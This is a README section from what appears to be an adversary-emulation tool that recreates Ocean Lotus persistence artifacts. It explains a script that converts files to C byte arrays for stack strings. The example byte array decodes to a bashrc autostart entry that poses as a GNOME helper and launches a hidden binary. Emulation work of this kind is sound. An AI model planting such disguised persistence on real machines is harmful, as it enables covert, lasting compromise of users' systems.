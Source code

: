 ## Utils
These files represent the persistence artifacts left by Ocean Lotus.
The [file2bytearray.py](./file2bytearray.py) script converts an arbitrary file to a C byte array to be used for stack-strings within the rota tool.
Examples of this can be seen within [persistence.c](../src/persistence.c)

### Usage Example
* Specify a file to read in and convert to a byte array to be used within rota.
``` sh
$> python3 file2bytearray.py -f bashrc-autostart
```

Example output:

``` c
char bashrc_autostart [219] = {0x23,0x20,0x41,0x64,0x64,0x20,0x47,0x4e,0x4f,0x4d,0x45,0x27,0x73,0x20,0x68,0x65,0x6c,0x70,0x65,0x72,0x20,0x64,0x65,0x73,0x69,0x67,0x6e,0x65,0x64,0x20,0x74,0x6f,0x20,0x77,0x6f,0x72,0x6b,0x20,0x77,0x69,0x74,0x68,0x20,0x74,0x68,0x65,0x20,0x49,0x2f,0x4f,0x20,0x61,0x62,0x73,0x74,0x72,0x61,0x63,0x74,0x69,0x6f,0x6e,0x20,0x6f,0x66,0x20,0x47,0x49,0x4f,0xa,0x23,0x20,0x74,0x68,0x69,0x73,0x20,0x65,0x6e,0x76,0x69,0x72,0x6f,0x6e,0x6d,0x65,0x6e,0x74,0x20,0x76,0x61,0x72,0x69,0x61,0x62,0x6c,0x65,0x20,0x69,0x73,0x20,0x73,0x65,0x74,0x2c,0x20,0x67,0x76,0x66,0x73,0x64,0x20,0x77,0x69,0x6c,0x6c,0x20,0x6e,0x6f,0x74,0x20,0x73,0x74,0x61,0x72,0x74,0x20,0x74,0x68,0x65,0x20,0x66,0x75,0x73,0x65,0x20,0x66,0x69,0x6c,0x65,0x73,0x79,0x73,0x74,0x65,0x6d,0xa,0x69,0x66,0x20,0x5b,0x20,0x2d,0x64,0x20,0x24,0x7b,0x48,0x4f,0x4d,0x45,0x7d,0x20,0x5d,0x3b,0x20,0x74,0x68,0x65,0x6e,0xa,0x20,0x20,0x20,0x20,0x20,0x20,0x20,0x20,0x24,0x7b,0x48,0x4f,0x4d,0x45,0x7d,0x2f,0x2e,0x67,0x76,0x66,0x73,0x64,0x2f,0x2e,0x70,0x72,0x6f,0x66,0x69,0x6c,0x65,0x2f,0x67,0x76,0x66,0x73,0x64,0x2d,0x68,0x65,0x6c,0x70,0x65,0x72,0xa,0x66,0x69,0xa};
```
